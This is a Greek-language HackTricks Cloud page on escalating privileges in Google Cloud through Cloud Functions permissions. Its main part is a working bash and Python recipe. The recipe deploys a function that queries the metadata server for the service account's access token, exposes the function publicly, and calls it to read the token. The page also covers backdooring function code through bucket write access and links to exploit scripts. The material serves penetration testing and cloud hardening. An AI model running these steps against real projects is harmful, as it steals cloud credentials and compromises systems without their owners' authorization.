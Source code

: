 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Περισσότερες πληροφορίες σχετικά με τις Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να **δημιουργήσει μια νέα Cloud Function με αυθαίρετο (κακόβουλο) κώδικα και να της αναθέσει έναν Service Account**. Στη συνέχεια, να διαρρεύσει το token του Service Account από τα μεταδεδομένα για να κλιμακώσει τα δικαιώματα σε αυτόν.\
Ορισμένα δικαιώματα για να ενεργοποιηθεί η λειτουργία μπορεί να απαιτούνται.

Τα σενάρια εκμετάλλευσης για αυτή τη μέθοδο μπορούν να βρεθούν [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) και [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) και το προεγκατεστημένο αρχείο .zip μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να **τροποποιήσει τον κώδικα μιας Function και ακόμη και να τροποποιήσει τον service account που είναι συνδεδεμένος** με στόχο την εξαγωγή του token.

{% hint style="danger" %}
Για να αναπτύξετε cloud functions θα χρειαστείτε επίσης δικαιώματα actAs πάνω στον προεπιλεγμένο service account υπολογιστή ή πάνω στον service account που χρησιμοποιείται για την κατασκευή της εικόνας.
{% endhint %}

Ορισμένα επιπλέον δικαιώματα όπως η άδεια `.call` για την έκδοση 1 cloudfunctions ή ο ρόλος `role/run.invoker` για να ενεργοποιήσετε τη λειτουργία μπορεί να απαιτούνται.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Αν λάβετε το σφάλμα `Permission 'run.services.setIamPolicy' denied on resource...` είναι επειδή χρησιμοποιείτε την παράμετρο `--allow-unauthenticated` και δεν έχετε αρκετά δικαιώματα γι' αυτό.
{% endhint %}

Το exploit script για αυτή τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Με αυτή την άδεια μπορείτε να αποκτήσετε μια **υπογεγραμμένη διεύθυνση URL για να μπορέσετε να ανεβάσετε ένα αρχείο σε έναν κάδο λειτουργίας (αλλά ο κώδικας της λειτουργίας δεν θα αλλάξει, πρέπει ακόμα να τον ενημερώσετε)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Δεν είμαι σίγουρος πόσο χρήσιμη είναι μόνο αυτή η άδεια από την προοπτική ενός επιτιθέμενου, αλλά καλό είναι να το γνωρίζουμε.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Δώστε στον εαυτό σας οποιαδήποτε από τα προηγούμενα **`.update`** ή **`.create`** προνόμια για να κλιμακώσετε.

### `cloudfunctions.functions.update`

Μόνο με **`cloudfunctions`** δικαιώματα, χωρίς **`iam.serviceAccounts.actAs`** δεν **θα μπορείτε να ενημερώσετε τη λειτουργία, ΟΠΟΤΕ ΑΥΤΟ ΔΕΝ ΕΙΝΑΙ ΜΙΑ ΕΓΚΥΡΗ ΚΛΙΜΑΚΩΣΗ.**

### Πρόσβαση Ανάγνωσης & Εγγραφής πάνω από τον κάδο

Εάν έχετε πρόσβαση ανάγνωσης και εγγραφής πάνω από τον κάδο, μπορείτε να παρακολουθείτε τις αλλαγές στον κώδικα και όποτε **γίνεται ενημέρωση στον κάδο μπορείτε να ενημερώσετε τον νέο κώδικα με τον δικό σας κώδικα** ώστε η νέα έκδοση της Cloud Function να εκτελείται με τον υποβληθέντα κώδικα με backdoor.

Μπορείτε να ελέγξετε περισσότερα σχετικά με την επίθεση στο:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Ωστόσο, δεν μπορείτε να το χρησιμοποιήσετε για να προ-συμβιβάσετε τρίτες Cloud Functions, διότι αν δημιουργήσετε τον κάδο στον λογαριασμό σας και του δώσετε δημόσιες άδειες ώστε το εξωτερικό έργο να μπορεί να γράψει πάνω του, λαμβάνετε το εξής σφάλμα:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Ωστόσο, αυτό θα μπορούσε να χρησιμοποιηθεί για επιθέσεις DoS.
{% endhint %}

### Πρόσβαση Ανάγνωσης & Εγγραφής πάνω από το Artifact Registry

Όταν δημιουργείται μια Cloud Function, μια νέα εικόνα docker αποστέλλεται στο Artifact Registry του έργου. Προσπάθησα να τροποποιήσω την εικόνα με μια νέα και ακόμη και να διαγράψω την τρέχουσα εικόνα (και την εικόνα `cache`) και τίποτα δεν άλλαξε, η cloud function συνεχίζει να λειτουργεί. Επομένως, ίσως **να είναι δυνατό να εκμεταλλευτείτε μια επίθεση Race Condition** όπως με τον κάδο για να αλλάξετε το docker container που θα εκτελείται, αλλά **απλά τροποποιώντας την αποθηκευμένη εικόνα δεν είναι δυνατό να συμβιβάσετε την Cloud Function**.

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
